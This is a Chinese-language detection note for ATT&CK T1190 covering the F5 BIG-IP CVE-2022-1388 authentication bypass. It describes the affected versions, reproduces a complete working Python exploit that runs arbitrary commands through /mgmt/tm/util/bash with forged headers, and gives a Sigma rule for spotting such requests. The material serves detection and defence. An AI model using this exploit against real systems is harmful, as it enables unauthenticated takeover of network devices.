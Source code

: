 # T1190-CVE-2022-1388-F5BIG-IP未授权RCE

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

在F5 BIG-IP 16.1.x 16.1.2.2之前的版本、15.1.5.1之前的15.1.x版本、14.1.4.6之前的14.1.x版本、13.1.5之前的13.1.x版本以及所有12.1.x和11.6.x版本，未公开的请求可能会绕过iControl REST身份验证。注意：未评估已达到技术支持终止(EoTS)的软件版本。

此漏洞可能允许未经身份验证的攻击者通过管理端口和/或自身IP地址对BIG-IP系统进行网络访问，以执行任意系统命令、创建或删除文件或禁用服务。没有数据平面暴露；这只是一个控制平面问题。

## 检测日志

HTTP.log

## 测试复现

[POC地址](https://github.com/horizon3ai/CVE-2022-1388)

具体POC可参考：

```python
#!/usr/bin/python3
import argparse
import requests
import urllib3
urllib3.disable_warnings()

def exploit(target, command):
    url = f'https://{target}/mgmt/tm/util/bash'
    headers = {
        'Host': '127.0.0.1',
        'Authorization': 'Basic YWRtaW46aG9yaXpvbjM=',
        'X-F5-Auth-Token': 'asdf',        
        'Connection': 'X-F5-Auth-Token',
        'Content-Type': 'application/json'
           
    }
    j = {"command":"run","utilCmdArgs":"-c '{0}'".format(command)}
    r = requests.post(url, headers=headers, json=j, verify=False)
    r.raise_for_status()
    if ( r.status_code != 204 and r.headers["content-type"].strip().startswith("application/json")):
        print(r.json()['commandResult'].strip())
    else:
        print("Response is empty! Target does not seems to be vulnerable..")

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='The IP address of the target', required=True)
    parser.add_argument('-c', '--command', help='The command to execute')
    args = parser.parse_args()

    exploit(args.target, args.command) 
```

## 测试留痕

无

## 检测规则/思路

### Sigma规则

```yml
title: F5-BIG-IP-RCE(CVE-2022-1388)
status: experimental
description: F5 recently patched a critical vulnerability in their BIG-IP iControl REST endpoint CVE-2022-1388. This vulnerability is particularly worrisome for users because it is simple to exploit and provides an attacker with a method to execute arbitrary system commands.
references:
    - https://www.horizon3.ai/f5-icontrol-rest-endpoint-authentication-bypass-technical-deep-dive/
    - https://www.randori.com/blog/vulnerability-analysis-cve-2022-1388/
author: 12306Br0
date: 2022/05/15
tags:
    - attack.initial_access
    - attack.t1190
logsource:
    category: webserver
detection:
    selection:
        cs-method: 'POST'
        c-uri|contains|all:
            - '/mgmt/tm/util/bash'
        cs-Connection: '*X-F5-Auth-Token*'
        cs-X-F5-Auth-Token: '*'
        cs-Authorization: '*'
    condition: selection
falsepositives:
    - Unknown
level: critical
tags:
    - attack.t1190
    - cve.2022.1388
```

### 建议

似乎并没有什么好的建议，规则未经过仿真环境测试，请谨慎使用。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

CVE-2022-1388

<https://github.com/horizon3ai/CVE-2022-1388>

F5 BIG-IP未授权RCE（CVE-2022-1388）分析

<https://www.anquanke.com/post/id/273011#h2-2>
